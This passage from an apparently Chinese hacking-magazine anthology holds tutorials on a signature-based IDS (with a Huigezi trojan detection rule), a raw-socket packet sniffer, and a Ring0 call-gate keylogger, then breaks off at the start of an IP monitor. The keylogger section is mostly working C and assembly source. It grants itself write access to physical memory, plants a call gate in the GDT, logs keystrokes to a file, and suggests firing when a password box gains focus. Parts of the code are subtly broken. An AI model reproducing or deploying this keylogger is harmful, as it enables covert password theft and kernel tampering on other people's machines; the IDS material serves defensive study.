typedef struct tcp_header // TCP包结构
{
    unsigned short sourcePort;
    unsigned short dstPort;
    unsigned int   seqNum;
    unsigned int   ackNum;
    unsigned char  dataOff;
    unsigned char  flags;
    unsigned short window;
    unsigned short chksum;
    unsigned short urgPtr;
} TCPHeader;

typedef struct udp_header // UDP包结构
{
    unsigned short sourcePort;
    unsigned short dstPort;
    unsigned short packetSize;
    unsigned short chksum;
} UDPHeader;
```

由于在 IP 数据包结构中，TCP 和 UDP 报头的位置跟在 IP 报头后，所以我们要对 IP 包字节流进行偏移运算后才能对 TCP 和 UDP 报头进行操作，偏移位是 IP 报头的长度。我们把 IP 包字节流分别进行偏移运算后转换为各自结构。对于 TCP 是“TCPHeader *ptcpheader = (TCPHeader *)(temp + sizeof(IPHeader))”；而对于 UDP 则是“UDPHeader *pudpheader = (UDPHeader *)(temp + sizeof(IPHeader))”。

把 IP 数据包按条件分别转换为 TCP 和 UDP 格式后，就可以分别对它们的各个数据位和它们承载的数据信息进行操作了，这样就达到了简单的协议分析的目的。TCP 和 UDP 报头后是 TCP 和 UDP 的数据段，用于承载 TCP 和 UDP 数据，这些数据段也包含了下一层协议的内容，如 HTTP、FTP 等。由于我们对 IDS 只做简单的实现，所以不再做深入的分析。这种结构化的分析方法比顺序逐位分析数据包明了了很多，它能对数据包进行一个初始的识别和分层处理，使程序能够根据不同的条件进行下一步工作，从而提高了程序的工作效率并降低了 CPU 的工作量。

## 检测规则定义的实现

检测规则用于定义攻击数据包的特征，IDS 程序读入规则后，对抓取的数据包和检测规则定义的攻击特征进行匹配，以达到检测攻击行为的目的。XML 是用来定义程序数据特征的有力手段，因此我们的程序用 XML 来定义规则。以下是一条定义检测灰鸽子 2006 的完整规则体。

灰鸽子 2006 的完整规则体。

```xml
<rule>
  <proto>tcp</proto>
  <srcip>any</srcip>
  <srcmask></srcmask>
  <dstip>any</dstip>
  <dstmask></dstmask>
  <srcport>any</srcport>
  <dstport>any</dstport>
  <direction>double</direction>
  <ttl></ttl>
  <tos></tos>
  <identity></identity>
  <dsize></dsize>
  <flags></flags>
  <seq></seq>
  <ack></ack>
  <windows></windows>
  <content>
    <payload>48 41 43 4B 00 00</payload>
    <offset></offset>
    <depth></depth>
    <distance></distance>
    <nocase></nocase>
  </content>
  <content>
    <payload>windows</payload>
    <offset></offset>
    <depth></depth>
    <distance></distance>
    <nocase>true</nocase>
  </content>
  <msg>huigezi2006 trojan activity found</msg>
</rule>
```

检测规则放入程序目录下的一个 `rule.xml` 文件中，以下是规则体各 XML 元素的意义。rule 指定一条规则，是规则的父元素，规则的内容放入该元素中；srcip 指定要检测的源地址，它可以是特定的 IP，比如要检测源 IP 为 192.168.188.163 的数据包，则指定元素“`<srcip>192.168.188.163</srcip>`”。如果把它的值设为 any，则表示检测源地址为任意的数据包。srcmask 用于指定源地址的掩码，用于匹配 IP 地址段，和子网掩码的定义方式一样。比如指定一个 C 类地址的掩码，则指定 srcmask 的值为 255.255.255.0。dstip 指定要检测的目的地址，它的值定义和 srcip 一样。dstmask 用于指定目的地址的掩码，它的值定义和 srcmask 一样。srcport 指定要检测的源端口，它是从 0 到 65535 的一个值，如果指定它为 any，则表示检测源端口为任意的数据包。dstport 指定要检测的目的端口，它的值定义和 srcport 一样。direction 表示检测数据包的方向，它有两个值 single 和 double。值 single 表示只检测规则定义的从源到目的的数据包，值为 double 表示检测规则定义的目的到源和源到目的双向的数据包。ttl 用于检测数据包的 ttl 值，设定该值的目的是检测网络中的 traceroute 尝试。tos 用于检测数据包特定的 tos 值，某些攻击数据包可能会把 tos 位设定为特定的值，以达到某些目的。identity 用于检测数据包的 id 值，某些攻击数据包可能会把 id 位设定为特定的值，以达到不同的目的。比如某些黑客喜欢把他们制作的攻击数据包的 id 值设为 31337。dsize 用于检测 TCP 和 UDP 数据包的 payload 长度。flags 用于检测 TCP 数据包的 flags 值，比如我们要检查一个 SYN 包，则把 flags 值设为 2。seq 用于检测 TCP 数据包的 seq 号。ack 用于检测 TCP 数据包的 ack 号。windows 用于检测特定的 TCP 窗口值大小。content 用于检测 payload 中的关键字，它是检测规则的子规则，每个检测规则可以有多个 content 规则。content 规则的定义是使用类型匹配型 IDS 的最重要的功能，它是检测规则描述攻击特征的关键手段。payload 指定要检测的 payload 中的关键字，它可以用明文表示，也可以用十六进制的形式表示，以表达一些复杂的字符串。当使用字符的十六进制形式来描述关键字时，应该把它们放到“|”和“|”之间，比如表示一个长度为 4 的空串，则使用“|00 00 00 00|”，程序将自动对其进行翻译。明文和十六进制不能在同一条 content 规则中的 payload 元素中混合使用。offset 指定 payload 中检测关键字的偏移量，比如指定 offset 为 5，则从 payload 的第 5 位开始检测。depth 指定检测深度，比如指定 depth 为 20 时则检测到 payload 的第 20 位为止。distance 指定从 payload 后面算起的偏移量。nocase 指定是否忽略关键字的大小写，指定为 true 时表示忽略大小写，false 则表示不忽略大小写。msg 指定当规则匹配时，IDS 返回的警报信息。

我们的检测规则使用 XML 表示，因此在程序中要使用相应的方法来识别和读取 XML 内容。我们使用 CMARKUP 类来对定义规则的 XML 文件进行操作，具体的使用方法在 http://www.firstobject.com/dn_markup.htm 中有详细的介绍，由于这不是本 IDS 设计的重点，就不再赘述了。

IDS 程序在开始检测时，先要把规则读入程序中，所以在程序里也要有相应的结构来存放规则信息，检测规则的结构在程序中表示如下。

```c
typedef struct rule
{
    int proto;         // 协议
    double sourceIP;   // 源IP
    long srcmask;      // 源掩码
    double dstIP;      // 目的IP
    long dstmask;      // 目的掩码
    int sourcePort;    // 源端口
    int dstPort;       // 目的端口
    bool direction;    // 发送方向
    int ttl;           // 检测数据包的ttl位
    int tos;           // 检测数据包的tos位
    int identity;      // 检测数据包的id位
    int dsize;         // 检测数据包payload长度
    int flags;         // 检测数据包flags位
    long seq;          // 检测数据包seq号
    long ack;          // 检测数据包ack号
    int window;        // 检测数据包窗口大小
    CString msg;       // 报警返回信息
    ContentRule content[100]; // payload规则
    bool activity;     // 该规则是否生效
} Rule;
```

其中“ContentRule content[100]”用于存放 content 子规则信息，它是一个结构数组，定义如下。

```c
typedef struct content_rule // content子规则
{
    CString payload; // payload中含有的关键字节串
    int depth;       // 检测深度，即检测到payload的第n位为止
    int offset;      // 检测位移，即从payload中第n位检测
    bool nocase;     // 是否区分大小写
    int distance;
    bool flag;       // 规则生效标记
} ContentRule;
```

我们定义一个规则结构数组“Rule rules[1000]”，初始化 1000 条规则，使用 `loadrule(rule *rules)` 函数把 XML 规则读入规则结构数组中。读入规则后，IDS 进入数据包检测状态。

## 数据包分析和检测的实现

基于模式匹配的 IDS 的工作原理是把数据包各数据段和规则定义互相比较以匹配规则。在程序里面的具体实现就是把捕获到 temp 的内容和读取到 rule 中的内容进行匹配比较。我们在函数 `checkdatagram` 中实现该过程。

因为我们的检测面对 TCP 和 UDP 两种数据包，所以在 `checkdatagram` 中按 TCP 和 UDP 两种情况进行分析。对送入 `checkdatagram` 中的数据包先检查其 proto 位，然后根据其值为 `IPPROTO_TCP` 和 `IPPROTO_UDP` 分两个过程对数据包和规则进行匹配，这也达到了简单协议分析的目的。

程序将 temp 包含的 IP 报头各数据位和 rule 定义内容进行比较，然后根据数据包的类型将 temp 包含的 TCP 报头或者 UDP 报头各数据位和 rule 定义内容进行比较，这个过程是比较显式的，只是一个数值比较过程。最后，程序根据 content 子规则的定义在数据包的 payload 中搜索攻击关键字，这也是实现 IDS 功能中的关键一步。

寻找数据包中的关键字的过程实际上是一个在数据包中寻找子串的过程。`strstr` 函数是标准库中在字符串中寻找子串的函数。数据包的内容是一个字符串，所以它可能包含“\0”的字符，这个字符在一般的字符串中是用来做字符串结束的标记的。如果串中含有这个字符，那么在字符串处理函数中会把这个串截断，因此，我们不能使用 C++ 的标准字符串操作函数 `strstr` 来实现我们的功能。

`memcmp` 是一个标准库函数，它的功能是把两个字符串（包括 `\0`）的内容进行比较匹配。我们通过这个函数来对 `strstr` 函数进行改写，实现一个在字节串中寻找子串的函数 `memmem`。

```cpp
char * memmem(char *source, char *dest, unsigned int sourceLen, unsigned int destLen) // 子字符串函数
{
    if (sourceLen < destLen) return NULL; // 子串要比目标串小
    int count = 0;
    while (1)
    {
        if ((sourceLen - count) < destLen) return NULL;
        if (memcmp(source + count, dest, destLen) == 0)
            return source + count; // 串中有子串内容
        count++;
    }
}
```

特定的攻击数据包的 payload 内容具有一定的特征，如果 IDS 能够把这些特征精确地定位出来，那么就可以发现网络中的攻击行为。Payload 检测功能在 `checkdatagram` 中用子函数 `checkpayload` 实现。

它根据 `content` 子规则定义的各种条件使用 `memmem` 函数在数据包字节串中进行关键字搜索。搜索条件包括大小写、检测深度、偏移量等，能够较好地描述攻击数据包特征，降低 IDS 对攻击事件的误报率，并提高检测效率。

```cpp
memmem(payload + 0, "hgz5", 4, len);
```

该函数返回值不为空，则表明在该数据包的 payload 找到了灰鸽子数据包的攻击特征，IDS 就定位了一次灰鸽子木马事件，检测出网络中有灰鸽子木马的活动踪迹。

数据包检测分析过程是 IDS 发现安全事件的关键过程，也是模式匹配 IDS 设计的原理所在。它承载了 IDS 的大部分运算量，其好坏直接影响 IDS 的性能。

## 安全事件报警和记录的实现

当 IDS 检测到安全事件的发生时，应该有报警并记录事件的机制，以便我们对发生的安全事件进行了解和查询。程序检测到一个数据包和检测规则完全匹配后会做出响应，使用标准输出把事件警报在程序控制台上显示出来。

警报内容包括事件发生时间、源 IP、目的 IP、事件具体信息等。程序显示警报的同时，还需要把该警报写入文本文件 `alert.txt` 中记录该事件，作为 IDS 的安全事件日志。

#### 功能测试

程序在编译通过后会产生 3 个文件：主程序、`rule.xml`、`alert.txt`。为了测试程序功能，把规则写入 `rule.xml`，双击启动主程序，即可对经过本机网卡的流量进行检测。


图2

我们可以看到程序载入了 199 条检测规则，并开始对本机 IP 为 `192.168.188.163` 的网卡流量进行检测。构造攻击流量后，可以看到 IDS 的报警，如图 3 所示。


图3

通过它，我们能够比较直观地了解网络中发生的安全事件，定位事件发生的源头，方便对安全事件进行处理和解决。在测试过程中，发现它在 100M 流量的网络中能够比较稳定地工作，达到了预期的设计目标。

#### 总结

本文以提出并解决问题为目的，从程序设计的角度对 IDS 的设计原理进行了说明，简单地实现了一个轻量级的 IDS。代码做得比较粗糙，读者可以根据自己的喜好对程序进行修改和加强。

### 一个简易网络嗅探器的实现


文/图 武汉大学 2004 级信息安全专业：朱思奇 王赤民

由于以太网等很多网络（常见共享 HUB 连接的内部网）是基于总线方式，物理上是广播的，即当一个机器发给另一个机器数据，共享 HUB 先收到，然后把它接收到的数据再发给其他的（来的那个端口不发）每一个接口，所以在共享 HUB 下同一网段的所有机器的网卡都能接收到数据。将局域网中某台机器的网络接口设置为混杂（promiscuous）模式（即网卡可以接收其收到的所有数据包，下面会详细地讲），那么它就可以捕获网络上所有的报文和帧了，如图 1 所示。

嗅探的基本工作原理就是通过将网卡设置为混杂模式，然后接收所有经过本主机（或设备）的包，并尝试对其进行解包分析。本文通过一个简单的嗅探器的编写，力图使大家能够了解嗅探软件的基本实现方式，并从原理上理解嗅探。本嗅探器的基本工作流程如图 2 所示，下面我们就来看看这个嗅探器的具体实现。


Sniffer（嗅探器）是一种常用的收集有用数据的方法，这些数据可以是用户的账号和密码，也可以是一些商用机密数据等。Sniffer 的正当用处主要是分析网络的流量，以便找出所关心的网络中潜在的问题。在合理的网络中，Sniffer 的存在对系统管理员是至关重要的，系统管理员通过 Sniffer 可以诊断出大量的不可见模糊问题，这些问题涉及两台乃至多台计算机之间的异常通信，有些甚至牵涉到各种协议。借助于 Sniffer，系统管理员可以方便地确定出多少通信量属于哪个网络协议，占主要通信协议的主机是哪一台，大多数通信目的是哪台主机，报文发送占用多少时间，或者相互主机的报文传送间隔时间等，这些信息为管理员判断网络问题、管理网络区域提供了非常宝贵的信息。

在进行主函数编写之前，首先我们需要建立几个特殊的数据结构 iphdr、tcphdr 和 udphdr，这几个数据结构分别代表 IP 头、TCP 头和 UDP 头的包头结构，用于在接包以后对相应的包进行解析。

现在我们来看主函数。主函数首先需要进行初始化，初始化的工作包括使用 `WSAStartup` 和 `Socket` 函数初始化接收用的套接字 Sock，对 `socket_in` 结构的地址变量 myaddress 赋值（指向本地 IP 地址），以及使用 `bind` 函数将套接字 Sock 和本地地址变量 myaddress 绑定在一起。具体内容如下。

```c
lresult = WSAStartup(MAKEWORD(2,2), &ws);
myaddress.sin_family = AF_INET;
myaddress.sin_port = htons(RECVPORT);
gethostname(name, sizeof(name));
```

```c
host=gethostbyname(name);
memcpy(&myaddress.sin_addr,host->h_addr_list[0],host->h_length);
sock=socket(AF_INET,SOCK_RAW,IPPROTO_IP);
err2=bind(sock,(PSOCKADDR)&myaddress,sizeof(myaddress));
```

```c
case 41:printf("Proto IPv6,");break;
case 89:printf("Proto OSPF,");break;
default:printf("Proto error,");break;
}
```

然后我们使用一个函数 `WSAIoctl()` 将网卡设置为混杂模式。

```c
err1=WSAIoctl(sock,SIO_RCVALL,&inbuffer,sizeof(inbuffer),&outbuffer,sizeof(outbuffer),&returned,NULL,NULL);
```

接下来我们通过一个简单的循环来接收经过网卡的包，然后进行解包就可以了。

```c
for(;;)
{
    memset(buffer,0,sizeof(buffer));            // 清空接收缓冲区
    err3=recv(sock,buffer,sizeof(buffer),0);    // 接包
    if(err3<0)
    {
        printf("RECEIVE ERROR!");
        exit(1);
    }
    solve(buffer,command);                      // 定义解包函数解包
}
```

这里，我们还需要定义一个 `solve()` 函数来对接收到的数据包进行分析。`solve` 接收从主函数传递来的缓冲区数据，然后按照 IP 头、TCP 头、UDP 头的格式对接收缓冲区数据进行读取，对没有加密的包可以直接读取其数据，加密的包读出的则是乱码。`solve` 函数的具体内容如下。

#### 1）取包头

```c
ip=(struct iphdr*)buff;
tcp=(struct tcphdr*)(buff+((ip->head)&0xf)*sizeof(unsigned int));
udp=(struct udphdr*)(buff+((ip->head)&0xf)*sizeof(unsigned int));
test1.sin_addr.s_addr=ip->sourceip;
test2.sin_addr.s_addr=ip->destip;
data=((BYTE *)tcp)+(tcp->offsetc>>4)*4;
```

#### 2）协议判断

```c
switch(ip->protc)
{
case 1:printf("Proto ICMP,");break;
case 2:printf("Proto IGMP,");break;
case 6:printf("Proto TCP,");break;
case 8:printf("Proto EGP,");break;
case 9:printf("Proto IGP,");break;
case 17:printf("Proto UDP,");break;
```

### 3）TCP包的简单解析

```c
if(ip->protc==6)
{
    printf("FROM TCPPORT:%d,TO TCPPORT:%d,SEQ:%d,ACK:%d\n",ntohs(tcp->sourceport),ntohs(tcp->destport),ntohl(tcp->seq),ntohl(tcp->ack));
    printf("FLAGS:");
    if(tcp->flags&0x20) printf("URG ");
    if(tcp->flags&0x10) printf("ACK ");
    if(tcp->flags&0x8)  printf("PSH ");
    if(tcp->flags&0x4)  printf("RST ");
    if(tcp->flags&0x2)  printf("SYN ");
    if(tcp->flags&0x1)  printf("FIN ");
    printf("data:%s\n",data);
}
```

### 4）UDP包的简单解析

```c
else if(ip->protc==17)
{
    printf("FROM UDPPORT:%d,TO UDPPORT:%d,\nDATA:%s",ntohs(udp->sourceport),ntohs(udp->destport),datau);
}
```

至此，我们的嗅探就已经基本完成了，图3是运行这个嗅探器抓包的结果。可以看到，这个嗅探器已经可以接收经过本网卡的所有数据包了，并可对不同协议的包进行区分，判断相应标志位，显示报文，已经具备了嗅探器的基本功能。但是本嗅探器由于使用手动抓包，因此丢包较严重，与 Ethereal 等使用 PCAP 抓包的工具相比，抓包率大约仅为50%。倘若想要编写一个真正的嗅探器，光靠手动抓包显然是远远不够的，必须要借助 PCAP 等工具包，才能使嗅探器的功能真正得到实现。


【本文涉及的代码（程序），请见随书光盘】

### 编写调用门键盘记录程序


文/图 lilkz

2007年7期《黑客防线》杂志上有一篇《直接访问键盘控制芯片获取键盘记录》，详细分析了如何通过 0x60 和 0x64 端口访问键盘控制器以及如何通过访问键盘控制器获取键盘记录。文章中给出的演示程序有个很大的缺点，就是需要 WinDriver 驱动程序。除了可以使用 WinDriver 驱动实现对 Windows 2000/XP 系统 I/O 端口的直接访问外，我们还可以使用其他一些第三方库，如 WinIO，但这种做法有很大的缺点：一是 WinIO 控件已经被许多杀毒软件盯上，列为病毒；二是使用这些库无疑增大了程序的体积。这里我介绍一种较好的 Ring3 下不通过驱动程序或者第三方库直接访问 I/O 端口的方法，并且用这种方法改写键盘记录程序。本文中使用的方法是 Ring3 下通过读写物理地址增加调用门执行 Ring0 代码，在 Ring0 代码中嵌入汇编指令直接读写 I/O 端口。

Windows NT/2000 为实现其可靠性，严格将系统划分为内核模式与用户模式，在 i386 系统中分别对应 CPU 的 Ring0 与 Ring3 级别。Ring0 下可以执行特权级指令，对任何 I/O 设备都有访问权，等等。要实现从用户态进入核心态，即从 Ring 3 进入 Ring 0，必须借助 CPU 的某种门机制，如中断门、调用门等。Windows NT/2000 系统下通过调用门实现特权级别转移的方法如下：

- 1. 以写权限打开物理内存对象；
- 2. 取得系统 GDT 地址，并转换成物理地址；
- 3. 将物理地址映射到当前进程空间；
- 4. 构造一个调用门；
- 5. 寻找 GDT 中空闲的位置，将 CallGate 植入；
- 6. Call 植入的调用门。

具体实现方法如下。

```c
// GDTR结构
typedef struct gdtr {
    unsigned short Limit;      // 16位长度
    unsigned short BaseLow;
    ...
};
```

```c
// 32位线性地址低16位
unsigned short BaseHigh;
// 32位线性地址高16位
} Gdtr_t, *PGdtr_t;

// 调用门描述符
typedef struct {
    unsigned short offset_0_15;
    unsigned short selector;
    unsigned char param_count : 4;
    unsigned char some_bits : 4;
    unsigned char type: 4;
    unsigned char app_system : 1;
    unsigned char dpl : 2;
    unsigned char present : 1;
    unsigned short offset_16_31;
} CALLGATE_DESCRIPTOR;

typedef struct {
    ULONG BaseAddr;
    unsigned short Limit;
} INFO;

// 打印错误信息
void PrintWin32Error(DWORD ErrorCode)
{
    LPVOID lpMsgBuf;
    FormatMessage(...);
    printf("%s\n", lpMsgBuf);
    LocalFree(lpMsgBuf);
}

// 虚拟地址转化为物理地址，线性地址在0x80000000与0xA0000000范围内...
```

```cpp
// Windows NT/2000中一般情况下均位于这个区域
ULONG MiniMmGetPhysicalAddress(ULONG virtualaddress)
{
    if(virtualaddress<0x80000000||virtualaddress>=0xA0000000)
        return 0;
    return virtualaddress&0x1FFFF000;
}

// 设置物理段可读
VOID SetPhyscialMemorySectionCanBeWrited(HANDLE hSection)
{
    // HSection为\Device\PhysicalMemory句柄
    PACL pDacl=NULL;
    PACL pNewDacl=NULL;
    PSECURITY_DESCRIPTOR pSD=NULL;
    DWORD dwRes;
    EXPLICIT_ACCESS ea;
    // 找到它的安全描述符
    if(dwRes=GetSecurityInfo(hSection,SE_KERNEL_OBJECT,
        DACL_SECURITY_INFORMATION,
        NULL,NULL,&pDacl,NULL,&pSD)!=ERROR_SUCCESS)
    {
        printf("GetSecurityInfo Error %u\n", dwRes);
        goto CleanUp;
    }

    ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
    ea.grfAccessPermissions = SECTION_MAP_WRITE;
    ea.grfAccessMode = GRANT_ACCESS;
    ea.grfInheritance= NO_INHERITANCE;
    ea.Trustee.TrusteeForm = TRUSTEE_IS_NAME;
    ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
    ea.Trustee.ptstrName = "CURRENT_USER";

    // 在当前ACL中添加Read/Write授权
    if(dwRes=SetEntriesInAcl(1,&ea,pDacl,&pNewDacl)!=ERROR_SUCCESS)
    {
        printf("SetEntriesInAcl %u\n", dwRes);
        goto CleanUp;
    }

    // 更新安全描述符
    if(dwRes=SetSecurityInfo(hSection,SE_KERNEL_OBJECT,
        DACL_SECURITY_INFORMATION,NULL,NULL,pNewDacl,
        NULL)!=ERROR_SUCCESS)
    {
        printf("SetSecurityInfo %u\n",dwRes);
        goto CleanUp;
    }

CleanUp:
    if(pSD) LocalFree(pSD);
    if(pNewDacl) LocalFree(pSD);
}
```

```cpp
HANDLE hSection=NULL;
GetBaseInfo(INFO *pInfo)
{
    Gdtr_t gdt;
    __asm sgdt gdt;
    // 转化虚拟内存地址为物理地址
    ULONG mapAddr=MiniMmGetPhysicalAddress(gdt.BaseHigh<<16|gdt.BaseLow);
    if(!mapAddr) return 0;

    NTSTATUS status;
    OBJECT_ATTRIBUTES objectAttributes;
    UNICODE_STRING objName;

    RtlInitUnicodeString(&objName,L"\\Device\\PhysicalMemory");
    InitializeObjectAttributes(&objectAttributes,&objName,
        OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE,NULL,
        (PSECURITY_DESCRIPTOR) NULL);

    // 打开对象句柄
    status = ZwOpenSection(&hSection,
        READ_CONTROL|WRITE_DAC,&objectAttributes);
    SetPhyscialMemorySectionCanBeWrited(hSection);
    ZwClose(hSection);

    status = ZwOpenSection(&hSection,
        SECTION_MAP_WRITE|SECTION_MAP_WRITE,
        &objectAttributes);
    if(status != STATUS_SUCCESS)
    {
        printf("Error Open PhysicalMemory Section Object,Status:%08X\n",status);
        return 0;
    }

    PVOID BaseAddress;
    // 映射section到当前进程空间
    BaseAddress=MapViewOfFile(hSection,
        FILE_MAP_READ|FILE_MAP_WRITE,0,mapAddr,(gdt.Limit+1));
    if(!BaseAddress)
    {
        printf("Error MapViewOfFile:");
        PrintWin32Error(GetLastError());
        return 0;
    }

    pInfo->BaseAddr=(ULONG)BaseAddress;
    pInfo->Limit=gdt.Limit;
}

INFO info;
// 定义需要打印的按键名称
char cKeyPress[16]={"A","B","C","D","E","F","G","H","I",
"J","K","L","M","N","O","P","Q","R","S","T","U","V",
"W","X","Y","Z","0","1","2","3","4","5","6","7","8","9",
"BKSP","SPACE","TAB","CAPS","ENTER","ESC", ...};

// 定义按键被按下时产生的扫描码
unsigned char cKeyDown[255]={0x1E,0x30,0x2E,0x20,0x12,
0x21,0x22,0x23,0x17,0x24,0x25,0x26,0x32,0x31,0x18,0x19,0x10,
0x13,0x1F,0x14,0x16,0x2F,0x11,0x2D,0x15,0x2C,0x0B,0x02,0x03,
0x04,0x05,0x06,0x07,0x08,0x09,0x0A,0x29,0x2C,0x0D,0x2B,0x0E,0x39,
0x0F,0x3A,0x1C,0x01,0x1A,0x1B,0x27,0x28,0x33,0x34,0x35,0};
```

```cpp
// 安装调用门进入ring0
BOOL ExecRing0Proc(ULONG Entry,ULONG seglen)
{
    CALLGATE_DESCRIPTOR *cg;

    // 添加调用门
    for(cg=(CALLGATE_DESCRIPTOR *)((ULONG)info.BaseAddr+(info.Limit&0xFFF8));
        (ULONG)cg>(ULONG)info.BaseAddr; cg--)
    {
        // 寻找到空闲空间
        if(cg->type == 0){
            cg->offset_0_15 = LOWORD(Entry);
            cg->selector = 8;
            cg->param_count = 0;
            cg->some_bits = 0;
            cg->type = 0xC;
            cg->app_system = 0;
            cg->dpl = 3;
            cg->present = 1;
            cg->offset_16_31 = HIWORD(Entry);
            break;
        }
    }

    short farcall[3];
    farcall[2]=((short)((ULONG)cg-(ULONG)info.BaseAddr))|3;

    if(!VirtualLock((PVOID)Entry,seglen)){
        printf("Error VirtualLock:");
        PrintWin32Error(GetLastError());
        return 0;
    }

    SetThreadPriority(GetCurrentThread(),THREAD_PRIORITY_TIME_CRITICAL);
    Sleep(1);
    __asm call fword ptr [farcall]
    SetThreadPriority(GetCurrentThread(),THREAD_PRIORITY_NORMAL);
    VirtualUnlock((PVOID)Entry,seglen);

    // 清除调用门
    *(ULONG *)cg=0;
    *((ULONG *)cg+1)=0;
    return TRUE;
}

struct _RING0DATA
{
    unsigned char cKey;
}keyData;

// 读取0x60端口获取键盘扫描码
void __declspec(naked) GetKey()
{
    __asm{
        pushad;
        pushf;
        cli;
        in al,60h;
        mov keyData.cKey,al;
        popf;
        popad;
        retf;
    }
}
```

以上定义的函数中，`GetKey()` 函数为 Ring0 级别需要执行的代码，需要使用汇编语言来实现。本程序中重要操作是通过汇编语言实现对 I/O 端口的访问的。

VC 中行内汇编的语法如下。

```c
__asm{
    汇编语句1
    ...
}
```

汇编语言中端口访问指令为 `in` 指令和 `out` 指令。`IN AX/AL, I/O端口地址` 表示从外部设备输入数据给累加器。如果从外设端口中输入一个字节，则给8位累加器 AL；若输入一个字，则给16位累加器 AX，如“IN AL,80H”。

`OUT I/O端口地址, AX/AL` 表示将累加器的数据输出给外部设备。如果向外设端口输出一个字节，则用8位累加器 AL；若输出一个字，则用16位累加器 AX，如“OUT 81H,AL”。

当 I/O 端口地址不超过8位时，则直接放在指令中；若超过8位，则用 DX 间址，如

```asm
MOV DX,8080H;
IN AL,DX;
```

利用内嵌汇编语言编制端口输出函数如下。

```c
void OutPort(unsigned short port,unsigned char value)
// port参数为输出端口地址，value参数为输出值
{
    __asm{
        mov dx,port
        // 把端口地址送到处理器DX寄存器中
    }
}
```

```cpp
mov al, value
// 把 value 送到处理器 AL 寄存器中
out dx, al
// 把 AL 寄存器中的值送到端口
};
}
```

该函数将无符号字符型 8 位的数据 value 写入地址为 port 的端口上，port 的数据类型是 `unsigned short`（16 位无符号短整型）。利用内嵌汇编语言编制端口输入函数如下。

```cpp
unsigned char InPort(unsigned short port)
// port 参数为输入端口地址，返回为输入值
{
    unsigned char value;
    __asm {
        mov dx, port   // 把端口地址送到处理器 DX 寄存器中
        in al, dx
        // 从 DX 指定端口中将一数据读到 AL 寄存器中
        mov value, al  // 把 AL 寄存器中的值赋给 value
    }
    return value; // 返回端口数据
}
```

函数 InPort 从地址为 port 的端口读入一个无符号 8 位的字符型数据，其参数只有一个，即端口号。返回的数据为 `unsigned char` 类型，为从端口读取的值。

到此为止，我们已经学会了如何通过添加调用门来实现对 I/O 地址的直接访问，剩下的问题就是通过访问 `0x60` 端口获取扫描码并转换为键盘按键信息存储到文件中了。但还有一个问题是不得不考虑的，那就是代码的不稳定性。Ring0 层程序对代码可靠性要求很高，很容易导致机器蓝屏死机。为了避免我们的键盘记录程序导致计算机经常死机，我采用了计时的方法，即键盘记录函数只能运行 10 秒钟，之后就会返回。这样程序执行 Ring0 代码的时间就大大减少，我们只需在需要记录键盘输入的时候调用该函数即可完成 10 秒钟的键盘记录工作。当然，你可以根据自己的需要适当调整这个时间。

```cpp
void main(void)
{
    ZeroMemory(&keyData, sizeof(struct _RING0DATA));
    // 锁定内存，该内存页不能交换到页文件，代码在内核模式运行，不能交换到硬盘中
    VirtualLock((PVOID)&keyData, sizeof(struct _RING0DATA));
    VirtualLock((PVOID)&info, sizeof(INFO));
    GetBaseInfo(&info);
    unsigned char cKeyLast = 0, cKeyNow = 0;
    DWORD dwLast;
    DWORD dwCurrent;
    DWORD dwInterval = 10000;
```

```cpp
    // 键盘记录时间，可以根据自己的需要进行修改
    dwLast = GetTickCount();
    while (1)
    {
        dwCurrent = GetTickCount();
        if (dwCurrent - dwLast > dwInterval)
            break;
        ExecRing0Proc((ULONG)GetKey, 0x100);
        cKeyNow = keyData.cKey;
        // 如果有键弹起
        if (cKeyNow > 0x80)
        {
            if (cKeyNow == (cKeyLast + 0x80))
            // 弹起键为上次按下的键
            {
                for (int i = 0; i < sizeof(cKeyDown); i++)
                {
                    if (cKeyDown[i] == cKeyLast) // 打印按下的键
                    {
                        FILE *fp = fopen("c:\\key.log", "a+");
                        // c:\key.log 文件记录键盘按键信息
                        fprintf(fp, "%s", cKeyPress[i]);
                        fclose(fp);
                    }
                }
            }
            // 令上次按下的键与本次放开的不相等
            cKeyNow = 0;
            cKeyLast = 1;
        }
        // 其他情况
        else
        {
            for (int i = 0; i < sizeof(cKeyDown); i++)
            {
                if (cKeyNow == cKeyDown[i]) // 有键按下
                {
                    cKeyLast = cKeyNow;
                }
            }
        }
        Sleep(100);
    }
    VirtualUnlock((PVOID)&info, sizeof(INFO));
    VirtualUnlock((PVOID)&keyData, sizeof(struct _RING0DATA));
    ZwClose(hSection);
}
```

程序编译运行后，可记录 10 秒钟的按键信息，按键信息保存在 `c:\key.log` 文件中。大家可以把程序修改为键盘记录函数，在用户密码输入框获得焦点的时候调用该函数。同样，将程序作为 WinIO 控件的替代程序也是一个不错的选择。

【本文涉及的代码（程序），请见随书光盘】

### 自己编写 IP 包监视工具

文／单长虹

在网络安全对抗技术中，对 IP 包的抓包技术一直是人们关注的焦点，我们可以通过分析数据包的协议类型、数据流量，来协助我们判断网络通信的类型，是否对网络安全构成隐患。下面我将就一个可以监控多宿主网络通信数据包的程序进行解析，程序用 VC++6.0 编写，用到了多线程编程和 WinSock 的 SOCK_RAW 套接字。如果读者对这些内容不太熟悉的话，正好可以借此机会好好学习一下。

首先，本程序可以对多宿主计算机进行监控。既然是对多宿主计算机进行监控，那么在程序进行初始化时，就少不了判断计算机到底是不是多宿主的。下面这段程序处在 `CIpmonDlg::OnInitDialog()` 中，它的功能就是来判断计算机是不是多宿主的。每台配置了 IP 地址的计算机都有一个专门的 IP 地址表，用来存放本机所有的 IP 地址，存放在一个结构 `PMIB_IPADDRTABLE` 中。开始，我们并不知道这个地址表中存放了多少地址，所以首先要得到这个表的大小，方法就是调用 `GetIpAddrTable` 函数，并把第一个参数置为 `NULL`，第二个参数用来返回地址表的大小 `dwSize`。有了 `dwSize` 之后，我们就可以定义一个 `PMIB_IPADDRTABLE` 类型的变量，并给它动态分配一块内存。接下来，我们需要再次调用 `GetIpAddrTable` 函数，真正取得本机的 IP 地址表，放入变量 `pIpAddrTable` 中。一起来看一下代码：

```cpp
DWORD dwSize = 0;
/* 第一次调用函数 GetIpAddrTable，得到 IP 地址列表的大小，放到 dwSize 中，然后创建一个地址表结构变量 */
GetIpAddrTable(NULL, &dwSize, FALSE);
PMIB_IPADDRTABLE pIpAddrTable = (PMIB_IPADDRTABLE)new BYTE[dwSize];
if (pIpAddrTable) {
    // 第二次调用函数 GetIpAddrTable，填充 pIpAddrTable 变量
